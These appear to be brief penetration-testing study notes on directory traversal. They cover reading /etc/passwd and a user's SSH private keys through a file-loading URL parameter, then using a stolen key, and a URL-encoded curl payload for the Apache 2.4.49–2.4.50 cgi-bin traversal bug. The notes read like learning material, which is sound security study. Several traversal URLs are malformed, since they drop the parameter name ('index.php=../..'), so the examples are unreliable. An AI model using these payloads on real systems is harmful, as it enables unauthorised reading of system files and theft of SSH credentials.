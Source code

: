 # Identifying and Exploiting Directory Traversals

A url may look like:

```
https://vulnerable-website/index.php?page=admin.php
```

Here the parameter `page` looks to be loading a file.

maybe we can do:

```
https://vulnerable-website/index.php=../../../../../../../../etc/passwd
```

if so maybe we can read an ssh key

```
https://vulnerable-website/index.php=../../../../../../../../home/harry/.ssh/id_rsa
```

OR `../../../../../../../../home/harry/.ssh/id_ecdsa`

use curl or burp suite or view-source to see how it is formatted properly.

NB: Also if you copy and paste an ssh private key into a file on the local linux system called `harry_id_rsa`, you need to 

```
kali@kali:~$ chmod 600 harry_id_rsa
```

# Encoding Special Characters

Apache 2.4.49-2.4.50 have a directory traversal bug in the `cgi-bin` path.

```
kali@kali:~$ curl http://vulnerable-website/cgi-bin/../../../../etc/passwd
```

won't work! but when encoded as `%2e` as a `.` 

```
kali@kali:~$ curl http://vulnerable-website/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

WORKS!